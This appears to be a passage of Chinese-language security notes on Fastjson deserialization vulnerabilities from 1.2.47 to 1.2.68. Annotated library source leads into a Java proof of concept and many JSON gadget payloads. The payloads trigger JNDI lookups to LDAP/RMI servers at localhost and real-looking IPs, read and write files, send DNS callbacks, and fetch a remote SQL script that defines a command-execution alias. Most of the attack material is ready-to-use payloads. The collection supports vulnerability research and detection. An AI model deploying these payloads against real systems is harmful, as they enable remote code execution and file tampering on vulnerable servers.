            //lexer为json串的下一处解析点的相关数据
             //如果下一处的类型为string
            if (lexer.token() == JSONToken.LITERAL_STRING) {
                //判断解析的下一处的值是否为val，如果不是val，报错退出
                if (!"val".equals(lexer.stringVal())) {
                    throw new JSONException("syntax error");
                }
                //移动lexer到下一个解析点
                //举例："val":(移动到此处->)"xxx"
                lexer.nextToken();
            } else {
                throw new JSONException("syntax error");
            }

            parser.accept(JSONToken.COLON);
            //此处获取下一个解析点的值"xxx"赋值到objVal
            objVal = parser.parse();

            parser.accept(JSONToken.RBRACE);
        } else {
            //当parser.resolveStatus的值不为TypeNameRedirect
            //直接解析下一个解析点到objVal
            objVal = parser.parse();
        }

        String strVal;
        //2. 可以看到strVal是由objVal赋值，继续往上看
        if (objVal == null) {
            strVal = null;
        } else if (objVal instanceof String) {
            strVal = (String) objVal;
        } else {
            //不必进入的分支
        }

        if (strVal == null || strVal.length() == 0) {
            return null;
        }

        //省略诸多对于clazz类型判定的不同分支。

        //1. 可以得知，我们的clazz必须为Class.class类型
        if (clazz == Class.class) {
            //我们由这里进来的loadCLass
            //strVal是我们想要可控的一个关键的值，我们需要它是一个恶意类名。往上看看能不能得到一个恶意类名。
            return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
        }
```

那么经过分析，我们可以得到的关注点又跑到`parser.resolveStatus`这上面来了

1. 当`parser.resolveStatus == TypeNameRedirect` 我们需要json串中有一个**"val":"恶意类名"**，来进入if语句的true中，污染objVal，再进一步污染strVal。我们又需要**clazz为class类**来满足if判断条件进入loadClass。

   所以一个json串的格式大概为`"被屏蔽的type"="java.lang.Class","val":"恶意类名"` 这样一个东西，大概如此。

2. 当`parser.resolveStatus ！= TypeNameRedirect`进入if判断的false中，可以直接污染objVal。再加上**clazz=class类**

   大概需要一个json串如下:`"@type":"java.lang.Class","val":"恶意类名"`。

 至于哪里调用了`MiscCodec.java#deserialze`，查看引用处其实可以发现这是一个非常多地方会调用到的常用函数，就比如解析过程中的`com.alibaba.fastjson.parser.DefaultJSONParser#parseObject(java.util.Map, java.lang.Object):384` 



调试时会通过`com.alibaba.fastjson.util.TypeUtils#loadClass`，注意这里默认cache为true，将恶意类缓存到mappings中



跳过第一个进入第二个mapping.put



这里再来到 `com.alibaba.fastjson.parser.DefaultJSONParser#checkAutoType`，由于不为`TypeUtils.getClassFromMapping(typeName)` 不为null，故绕过了黑名单校验，然后在if中提前取出了恶意类



之后就是在setvalue中触发

> 如果没有开启 AutoType 的话也可以触发，如果没有开启，则红框处的if就不会进入，自然也不会走黑名单，而是直接从mapping中获取

之前看到其他博客说，一开始payload是分成两截，因为服务器的mappings自从加过恶意类之后，就会一直保持，然后就可以随便打了。

但是之后为了不让负载均衡，平摊payload造成有几率失败，就变成了一个payload

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

/**
 * fastjson 1.2.47 版本通杀payload
 */
public class fastjson1247
{
    public static void main(String[] args) {
//        test();
        String payload = "{\n" +
                "   \"a\":{\n" +
                "       \"@type\":\"java.lang.Class\",\n" +
                "       \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "   },\n" +
                "   \"b\":{\n" +
                "       \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "       \"dataSourceName\":\"ldap://127.0.0.1:1099/calc\",\n" +
                "       \"autoCommit\":true\n" +
                "   }\n" +
                "}";
        JSON.parse(payload);
    }

    public static void test(){
        String payload1 = "{\n" +
                "    \"@type\": \"java.lang.Class\", \n" +
                "    \"val\": \"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "}";
        String payload2 = "{\n" +
                "    \"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \n" +
                "    \"dataSourceName\":\"ldap://127.0.0.1:1099/calc\", \n" +
                "    \"autoCommit\":true\n" +
                "}";
        JSON.parse(payload1);
        JSON.parse(payload2);
    }
}
```

回顾一下进来的过程：

我们进入`com.alibaba.fastjson.parser.DefaultJSONParser#parseObject(java.util.Map, java.lang.Object)`

1. checkAutoType方法拿到Class.class
2. 设置了ResolveStatus为TypeNameRedirect，决定了之后deserialze中的if走向
3. 进入deserializer.deserialze

com.alibaba.fastjson.serializer.MiscCodec#deserialze

1. parser.resolveStatus为TypeNameRedirect，进入if为true走向
2. 解析"val":"恶意类名"，放入objVal，再传递到strVal
3. 因为clazz=Class.class，进入TypeUtils.loadClass，传入strVal

com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader)

1. 添加默认cache为true，调用loadClass

com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader, boolean)

1. 三个改变mappings的第一处，由于classLoader=null，不进入
2. 三个改变mappings的第二处，classLoader=null，进入；获取线程classLoader，由于cache为true，添加mappings。

## [1.2.48]修复

直接指定过来三个参数loadClass同时cache为false 

```
    public static Class<?> loadClass(String className, ClassLoader classLoader) {
        return loadClass(className, classLoader, false);
    }
```

三处 `if(cache)` 判断卡死了 `mappings.put` 方法

## [<= 1.2.59]

### com.zaxxer.hikari.HikariConfig

参考: https://github.com/R4ph4e1-0x01/fastjsonEXP

```
HikariConfig.setHealthCheckRegistry
HikariConfig.getObjectOrPerformJndiLookup
initCtx.lookup
```

POC

```
{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://127.0.0.1:1099/calc"}
```

## [1.2.60]

### org.apache.openjpa.ee.RegistryManagedRuntime

```
RegistryManagedRuntime.setRollbackOnly
RegistryManagedRuntime.getTransactionManager
(TransactionSynchronizationRegistry)ctx.lookup
```

POC

```
{"@type":"org.apache.openjpa.ee.RegistryManagedRuntime","_registryName":"ldap://127.0.0.1:1099/calc","rollbackOnly": null}
```

### org.apache.xbean.propertyeditor.JndiConverter

```
AbstractConverter.setAsText
AbstractConverter.toObject
JndiConverter.toObjectImpl
InitialContext.lookup
```

POC

```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","asText":"ldap://127.0.0.1:1099/calc"}
```

### Fastjson Dos

- fastjson < 1.2.60 dos [Fastjson-1-2-60-Dos](http://m0d9.me/2019/09/06/Fastjson-1-2-60-Dos分析/)

- 使用dnslog来检测fastjson漏洞 https://github.com/alibaba/fastjson/issues/3077

  这里的原理跟`Class.class`是一样的，只是换成了`java.net.URL`、`java.net.Inet4Address`、`java.net.Inet6Address`，由MiscCodec处理时会去触发dns查询

  当然这里的触发URL的触发用的ysoserial里面的URLDNS的方式，由hashcode去触发；

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{{"@type":"java.net.URL","val":"http://s81twxdise25yxjinqaar74iq9wzko.burpcollaborator.net"}:"aaa"}
```

## [1.2.61]

### org.apache.commons.configuration.JNDIConfiguration

```
JNDIConfiguration.JNDIConfiguration
#this(new InitialContext(), prefix)
JNDIConfiguration.getBaseContext
JNDIConfiguration.getBaseContext
JNDIConfiguration.getContext #this.context = new InitialContext()
InitialContext.lookup
```

POC

```
{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://127.0.0.1:1099/calc"}
```

### org.apache.commons.proxy.provider.remoting.RmiProvider

参考: 

- https://www.cnblogs.com/tr1ple/p/12335098.html
- https://dyblogs.cn/dy/2392.html

```java
    private Registry getRegistry() {
        try {
            return this.clientSocketFactory != null ? LocateRegistry.getRegistry(this.host, this.port, this.clientSocketFactory) : LocateRegistry.getRegistry(this.host, this.port);
        } catch (RemoteException var2) {
            throw new ObjectProviderException("Unable to locate registry at " + this.host + ":" + this.port + ".", var2);
        }
    }
    
    public Object getObject() {
        Registry reg = null;

        try {
            reg = this.getRegistry();
            // JNDI
            return reg.lookup(this.name);
        } catch (NotBoundException var3) {
            throw new ObjectProviderException("Name " + this.name + " not found in registry at " + this.host + ":" + this.port + ".", var3);
        } catch (RemoteException var4) {
            throw new ObjectProviderException("Unable to lookup service named " + this.name + " in registry at " + this.host + ":" + this.port + ".", var4);
        }
    }
```

POC

```
{"@type":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"127.0.0.1","port":1099,"name":"obj","registry":null}
```

### org.apache.commons.proxy.provider.remoting.SessionBeanProvider

```java
    public Object getObject() {
        try {
            InitialContext initialContext = this.properties == null ? new InitialContext() : new InitialContext(this.properties);
            // JNDI
            Object homeObject = PortableRemoteObject.narrow(initialContext.lookup(this.jndiName), this.homeInterface);
            Method createMethod = homeObject.getClass().getMethod("create", ProxyUtils.EMPTY_ARGUMENT_TYPES);
            return createMethod.invoke(homeObject, ProxyUtils.EMPTY_ARGUMENTS);
        } catch (NoSuchMethodException var4) {
            throw new ObjectProviderException("Unable to find no-arg create() method on home interface " + this.homeInterface.getName() + ".", var4);
        } catch (IllegalAccessException var5) {
            throw new ObjectProviderException("No-arg create() method on home interface " + this.homeInterface.getName() + " is not accessible.", var5);
        } catch (NamingException var6) {
            throw new ObjectProviderException("Unable to lookup EJB home object in JNDI.", var6);
        } catch (InvocationTargetException var7) {
            throw new ObjectProviderException("No-arg create() method on home interface " + this.homeInterface.getName() + " threw an exception.", var7);
        }
    }
```

开了autotype，所以cacheclass为true，因此在parseConfig的1039行中调用了TypeUtils.loadClass将把SessionBeanProvider放到mappings中

POC

```
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider", "jndiName":"ldap://127.0.0.1:1099/calc","Object":"a"}
```

## [1.2.66]

### org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup

```
CacheJndiTmLookup.setJndiNames
CacheJndiTmLookup.getTm
# 迭代器中只有jndiNames一个元素, 所以next取值是设置的jndiNames, 通过lookup触发
```

POC

```
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://127.0.0.1:1099/calc"}
```

### com.caucho.config.types.ResourceRef

```
// ResourceRef.getValue中跟进Jndi.lookup
    public static Object lookup(String name) {
        NamingException ex = null;

        Object value;
        try {
        	//触发JNDI注入
            value = (new InitialContext()).lookup(name);
            if (value != null) {
                return value;
            }
```

POC

```
{"@type":"com.caucho.config.types.ResourceRef","lookupName": "ldap://127.0.0.1:1099/calc", "value":null}
```

### org.apache.shiro.jndi.JndiObjectFactory

JndiObjectFactory继承JndiLocator调用在getInstance中调用其lookup方法, 跟进至 JndiLocator.lookup

```java
    protected Object lookup(String jndiName) throws NamingException {
        // 向下跟进
        return this.lookup(jndiName, (Class)null);
    }
	protected Object lookup(String jndiName, Class requiredType) throws NamingException {
        if (jndiName == null) {
            throw new IllegalArgumentException("jndiName argument must not be null");
        } else {
            String convertedName = this.convertJndiName(jndiName);

            Object jndiObject;
            try {
                // 继续跟进
                jndiObject = this.getJndiTemplate().lookup(convertedName, requiredType);
            } catch (NamingException var6) {
                if (convertedName.equals(jndiName)) {
                    throw var6;
                }

                if (log.isDebugEnabled()) {
                    log.debug("Converted JNDI name [" + convertedName + "] not found - trying original name [" + jndiName + "]. " + var6);
                }

                jndiObject = this.getJndiTemplate().lookup(jndiName, requiredType);
            }

            log.debug("Located object with JNDI name '{}'", convertedName);
            return jndiObject;
        }
    }
```

跟进至 JndiTemplate.lookup

```java
    protected Object lookup(String jndiName, Class requiredType) throws NamingException {
        if (jndiName == null) {
            throw new IllegalArgumentException("jndiName argument must not be null");
        } else {
            String convertedName = this.convertJndiName(jndiName);

            Object jndiObject;
            try {
                jndiObject = this.getJndiTemplate().lookup(convertedName, requiredType);
            } catch (NamingException var6) {
            ...
```

其中execute方法去初始化ctx

```java
    public Object execute(JndiCallback contextCallback) throws NamingException {
        Context ctx = this.createInitialContext();
```

跟进后发现返回的是InitialContext实例, 至此触发的是InitialConte.lookup

```java
    protected Context createInitialContext() throws NamingException {
        Properties env = this.getEnvironment();
        Hashtable icEnv = null;
        if (env != null) {
            icEnv = new Hashtable(env.size());
            Enumeration en = env.propertyNames();

            while(en.hasMoreElements()) {
                String key = (String)en.nextElement();
                icEnv.put(key, env.getProperty(key));
            }
        }

        return new InitialContext(icEnv);
    }
```

POC

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://127.0.0.1:1099/calc"}
```

### org.apache.shiro.realm.jndi.JndiRealmFactory

将jndiNames设置成数组原因是在JndiRealmFactory.getRealms会调用jndiNames迭代器, 也就是写成 `["ldap://127.0.0.1:1099/calc"]` 格式可以调用通过next调用其中的元素, 继承 JndiLocator 类于是调用其 lookup, 后续和 JndiObjectFactory 同理

```java
    public Collection<Realm> getRealms() throws IllegalStateException {
        Collection<String> jndiNames = this.getJndiNames();
        if (jndiNames != null && !jndiNames.isEmpty()) {
            List<Realm> realms = new ArrayList(jndiNames.size());
            // 将jndiNames写成数组形式用于调用
            Iterator var3 = jndiNames.iterator();

            while(var3.hasNext()) {
                String name = (String)var3.next();

                try {
                    // 最终跟进至 JndiLocator.lookup
                    Realm realm = (Realm)this.lookup(name, Realm.class);
                    realms.add(realm);
                } catch (Exception var6) {
```

POC

```
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory","jndiNames":["ldap://127.0.0.1:1099/calc"]}
```

### com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig

JtaTransactionConfig.setProperties

```java
    public void setProperties(Properties props) throws SQLException, TransactionException {
        String utxName = null;

        try {
            // 提取UserTransaction键的值
            utxName = (String)props.get("UserTransaction");
            InitialContext initCtx = new InitialContext();
            this.userTransaction = (UserTransaction)initCtx.lookup(utxName);
        } catch (NamingException var4) {
            throw new SqlMapException("Error initializing JtaTransactionConfig while looking up UserTransaction (" + utxName + ").  Cause: " + var4);
        }
    }
```

用`"properties": {"@type":"java.util.Properties","UserTransaction":"ldap://127.0.0.1:1099/calc"}`设置properties对象并给UserTransaction赋值

POC

```
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://127.0.0.1:1099/calc"}}
```

### com.ibatis.db.sqlmap.SqlMap

SqlMap.setUserTransactionJndiName

```java
    public void setUserTransactionJndiName(String var1) {
        try {
            InitialContext var2 = new InitialContext();
            // 触发JNDI
            UserTransaction var3 = (UserTransaction)var2.lookup(var1);
            this.userTransaction = new JtaTransaction(var3);
            this.userTransactionJndiName = var1;
        } catch (NamingException var4) {
            throw new NestedRuntimeException("Error setting userTransactionJndiName.  Cause: " + var4, var4);
        }
    }
```

POC

```
{"@type":"com.ibatis.db.sqlmap.SqlMap","userTransactionJndiName":"ldap://127.0.0.1:1099/calc"}
```

### br.com.anteros.dbcp.AnterosDBCPConfig

```
setHealthCheckRegistry.getObjectOrPerformJndiLookup
# 传入healthCheckRegistry
setHealthCheckRegistry.getObjectOrPerformJndiLookup
调用InitialContext.lookup
```

核心代码

```java
    private Object getObjectOrPerformJndiLookup(Object object) {
        if (object instanceof String) {
            try {
                // 传入healthCheckRegistry并触发lookup
                InitialContext initCtx = new InitialContext();
                return initCtx.lookup((String)object);
            } catch (NamingException var3) {
                throw new IllegalArgumentException(var3);
            }
        } else {
            return object;
        }
    }
```

POC

```
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://127.0.0.1:1099/calc"}
```

## [1.2.68]

- Fastjson <= 1.2.68；

- 利用类必须是expectClass类的子类或实现类，并且不在黑名单中；

```
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1099/calc"}
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1099/calc"}
{"@type":"com.caucho.config.types.ResourceRef","lookupName": "ldap://localhost:1099/calc", "value": {"$ref":"$.value"}}
```

无需开启AutoType，直接成功绕过CheckAutoType()的检测从而触发执行

```
{"@type":"java.lang.AutoCloseable","@type":"vul.VulAutoCloseable","cmd":"calc"}
```

读文件

```
{"@type":"java.lang.AutoCloseable", "@type":"org.eclipse.core.internal.localstore.SafeFileOutputStream", "tempPath":"C:/Windows/win.ini", "targetPath":"D:/wamp64/www/win.txt"}
```

写文件

```
{
    "stream": {
        "@type": "java.lang.AutoCloseable",
        "@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream",
        "targetPath": "D:/wamp64/www/hacked.txt",
        "tempPath": "D:/wamp64/www/test.txt"
    },
    "writer": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.esotericsoftware.kryo.io.Output",
        "buffer": "cHduZWQ=",
        "outputStream": {
            "$ref": "$.stream"
        },
        "position": 5
    },
    "close": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.sleepycat.bind.serial.SerialOutput",
        "out": {
            "$ref": "$.writer"
        }
    }
}
```

写文件

```
{
    'stream':
    {
        '@type':"java.lang.AutoCloseable",
        '@type':'java.io.FileOutputStream',
        'file':'/tmp/nonexist',
        'append':false
    },
    'writer':
    {
        '@type':"java.lang.AutoCloseable",
        '@type':'org.apache.solr.common.util.FastOutputStream',
        'tempBuffer':'SSBqdXN0IHdhbnQgdG8gcHJvdmUgdGhhdCBJIGNhbiBkbyBpdC4=',
        'sink':
        {
            '$ref':'$.stream'
        },
        'start':38
    },
    'close':
    {
        '@type':"java.lang.AutoCloseable",
        '@type':'org.iq80.snappy.SnappyOutputStream',
        'out':
        {
            '$ref':'$.writer'
        }
    }
}
```

适用于jdk8/10的

```
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'dst',
           'append':false
        },
        'infl':
        {
            'input':'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw=='
        },
        'bufLen':1048576
    },
    'protocolVersion':1
}
```

2021黑帽大会腾讯玄武披露

```
Mysqlconnector 5.1.x
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"mysql.host","portToConnectTo":3306,"info":{"user":”user","password":”pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":”dbname","url":""}

Mysqlconnector 6.0.2 or 6.0.3
{"@type": "java.lang.AutoCloseable","@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection","proxy":{"connectionString":{"url": "jdbc:mysql://localhost:3306/foo?allowLoadLocalInfile=true"}}}

Mysqlconnector 6.x or < 8.0.20
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnection","proxy":{"@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy","connectionUrl":{"@type":"com.mysql.cj.conf.url.ReplicationConnectionUrl", "masters": [{"host":"mysql.host"}], "slaves":[], "properties":{"host":"mysql.host","user":"user","dbname":"dbname","password":"pass","queryInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true"}}}}
```

## 其它

更多参考: https://github.com/kezibei/fastjson_payload/tree/d54f32ff2822392603c56a3203de7ad2eb047447/src/test

参考: https://paper.seebug.org/1613/#3poc

```
[{"@type":"ch.qos.logback.core.db.DriverManagerConnectionSource","url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:3000/test.sql'"},{$ref:"$[0].connection"}]
```

test.sql

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```

other

```
{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor", "parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"replace_here"}, "namespace":""}

{"@type":"org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}

{"@type":"org.apache.aries.transaction.jms.internal.XaPooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}
```

### org.quartz.impl.jdbcjobstore.JTANonClusteredSemaphore

parseObject

```
JTANonClusteredSemaphore.setTransactionManagerJNDIName
JTANonClusteredSemaphore.getTransaction
```

poc1

```
{"@type":"org.quartz.impl.jdbcjobstore.JTANonClusteredSemaphore","transactionManagerJNDIName":"ldap://81.70.101.91:1389/2gla6s"}
```

poc2

```
[{"@type":"org.quartz.impl.jdbcjobstore.JTANonClusteredSemaphore","transactionManagerJNDIName":"rmi://192.168.0.105:1090/ldtnpi"},{"$ref":"$[0].transaction"}]
```

